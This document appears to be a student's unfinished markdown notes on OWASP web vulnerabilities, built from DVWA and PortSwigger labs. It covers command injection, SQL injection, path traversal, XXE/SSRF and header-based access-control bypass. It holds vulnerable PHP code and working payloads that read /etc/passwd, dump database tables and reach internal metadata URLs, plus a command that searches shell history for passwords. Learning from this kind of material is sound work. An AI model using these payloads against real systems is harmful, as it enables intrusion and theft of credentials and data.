

# OWASP Top 10 Vulnerabilities

1. OS Command Injection

**Shell injection vuln**. that allows an attacker to run OS commands on the server thus compromising all it's data.
This is the vulnerable form:


The code in low security:
```
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

The issue that makes this login form prone to command is the `shell_exec` command
User input gets executed in `shell_exec` without any input sanitization. Similar functions like `exec()`, `system()`, `passthru()` are also vulnerable to this type of attack.

## Vulnerability:
- Network tools made available on the web interface
- **Shellshock exploit** using **OS command injection CWE**. Where we use bash to process requests and in our case we are using bash shell to execute the ping command to the given user input

## How to exploit this flow:
1. `command1 && command2` that will run command2 if command1 succeeds. E.g `8.8.8.8&&  cat /etc/passwd`
2. `command1 || command2` that will run command2 if command1 fails. e.g `127.0.0.1|| cat /etc/passwd`
3. `command1 ; command2` that will run command1 then command2. e.g `127.0.0.1; cat /etc/passwd`
4. `command1 | command2` that will run command1 and send the output of command1 to command2. e.g `127.0.0.1| cat /etc/passwd`


2. Maintain persistence on the server

Further reading: [CVE-2022-1388]()

## Logging the discovered vulnerability in ZAP


## How to prevent

# 2. SQL Injection
Most SQL injections happen in the `WHERE` clause of a `SELECT` SQL query

Example from DVWA:
` $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";`

NOTE:
### SQL Injection: Echoing Information Methods
**Single Quotes (')** or **Double Quotes (")**: Used for string literals or identifiers in SQL queries. e.g `SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';`

**Backticks (`)**: Used to escape identifiers like table or column names (commonly in MySQL).

**Directly**: For numeric values or certain SQL dialects allowing unquoted values.

These methods are essential for crafting payloads to manipulate SQL queries during penetration testing.

### SQL Injection: Always True Condition

To make the query return a result, inject an always true condition (`1=1`):

1. **Break out of the string**: Close the existing string using a single quote (`'`).
2. **Add `OR`**: Use `OR` to introduce a true condition (`1=1`).
3. **Comment out the rest**: Use `--` (or `#`) to ignore the remaining query.

**Example payload**:
```sql
' OR 1=1 -- 
" OR 1=1 -- 

```

This forces the query to always return results by making the condition 1=1 true and commenting out the remaining query.

## Retrieving hidden data
You can print the whole DB in a website using:
`1" or 1=1; -- ` which returns all the users in a DB. Eg You want to get a user with id 1, you pass 1 to the input box but to exploit an SQL injection you pass `1' or 1=1; -- ` OR `'+OR+1=1--`
You should see the whole DB table printed out

## Bypassing Password Auth when you know the username
Add the username e.g `administrator'--'` - This will comment out the password part of the query and not check if the password entered is correct.

### Union attack
To retrieve data from different DBs.By adding the following for example `' UNION SELECT username, password FROM users--`

### Blind SQL Injection attacks
Happens when an application does not return the results of the SQL query or the details of any database errors within its responses.  However, the application does behave differently depending on whether the query returns any data. 
[PayloadsAllTheThings - BLind SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-blind) 
#### sqlmap
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 6020=6020 AND 'HlpB'='HlpB&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 8268 FROM (SELECT(SLEEP(5)))EloZ) AND 'Wwtd'='Wwtd&Submit=Submit

```

## How to prevent

# 3. Cross Site Request Forgery (CSRF)

# File Traversal
Happens when we allow user input in file paths. E.g `filename=someValue` can be compromised using:
1. Absolute path e.g. `filepath=/etc/passwd`
2. Nested traversal sequences e.g. `GET /image?filename=....//....//....//etc/passwd` or `....\/`
3. Using non-standard encoding e.g `..%c0af` or `..%252f` to bypass the input filter e.g `GET /image?filename=../../../etc/passwd` is encoded to `GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd `
3. Using a **nullbyte** to terminate the input check before the system checks if the file ends in a particular format e.g. `.png` using e,g `GET /image?filename=../../../etc/passwd%00.png`.

## Prevention
1. Don't allow users to pass user supplied input to the filesystem API.
2. System should add a whitelist of permitted values and permitted characters
3. Canonicalize the path using e.g `file.getCanonicalPath()` in JAVA

the server's filesystem:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
This causes the application to read from the following file path:

`/var/www/images/../../../etc/passwd`

# XML External Entity Injection (XXE)
Defining an entity that references external data(XML sent as data) e.g remote files on a server.  It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. The attack can be escalated to a remote code execution attack or even a server side request forgery (SSRF)
**NOTE**: Exploits POST requests  in apps whose HTTP traffic has requests that contain data in XML format.

## Types of Attacks
📦 Example: A Stock Check App
Imagine an app that checks product stock. It sends something like this to the server:
```
<stockCheck><productId>381</productId></stockCheck>
```
This tells the server: “Hey, what’s the stock for product ID 381?”

Attackers can sneak in special XML code that tells the server:

> “Before you check the stock, please go open a file on your own system and include that in your response.”

### Exploiting XXE to retrieve files
Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file you want to retrieve from the server. The file is rendered on the client side
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
What this means:
<!DOCTYPE foo ...> — defines a custom “document type.”

<!ENTITY xxe SYSTEM "file:///etc/passwd"> — tells the server: create a shortcut (xxe) for a local file on your computer (like /etc/passwd, which is a file on Linux that lists users).

`<productId>&xxe;</productId>` — uses that shortcut in the data.

### Exploiting XXE to perform SSRF attacks
SSRF happens when an attacker tricks the server to make requests to another system e.g access internal systems you can’t reach from the internet like `http://localhost/admin` or the AWS metadata API `http://169.254.169.254/latest/meta-data/`

```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/">
]>
<stockCheck><productId>&xxe;</productId></stockCheck>

```

- You define `&xxe;` as a request to an internal URL (something the server can see, but the attacker cannot).

- The app uses `&xxe;` in its logic — maybe it puts the result in a response, or maybe it just loads it silently.

- The server makes the HTTP request, not the attacker.


### XInclude
To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include.
E.g `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>` using XInclude in POST requests to retrieve sensitive files from the server

### File image upload
Exploit happens if the files uploaded get validated after they get uploaded to the server

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

### Exploiting blind XXE to exflitrate data


### Exploiting blind XXE to retrieve data via an error message shown

## Prevention
Generally, it is sufficient to disable resolution of external entities and disable support for XInclude. 

## Access Control
 In some cases, the administrative URL might be disclosed in other locations, such as the robots.txt file:

 https://0a1e003b0307126880e67b580008005c.web-security-academy.net/login

 improper handling of HTTP headers such as **X-Original-URL** can introduce serious security vulnerabilities. Attackers can exploit these misconfigurations to bypass authentication, gain unauthorized access to resources, and escalate privileges.
 If an application checks permissions based on `X-Original-URL` instead of the actual request URL while accessing the `/` endpoint but with the `X-Origin-URL` with a value of `/admin` or to perfome user actions e.g `X-Origin-URL=admin/delete` when the user acesses the URL `?username=carlos`, an attacker could modify the header to gain unauthorized access.
 Apart from X-Original-URL, attackers may target other similar headers, including:

**X-Rewrite-URL**: Used in some proxies to rewrite URLs.
**X-Forwarded-For**: Can be used to spoof IP addresses.
**X-Forwarded-Host**: Can be manipulated to bypass domain-based access controls.
**Referer Header**: Can be forged to bypass referer-based access restrictions.

`find -name .bash_history -exec grep -A 1 '^passwd' {} \;`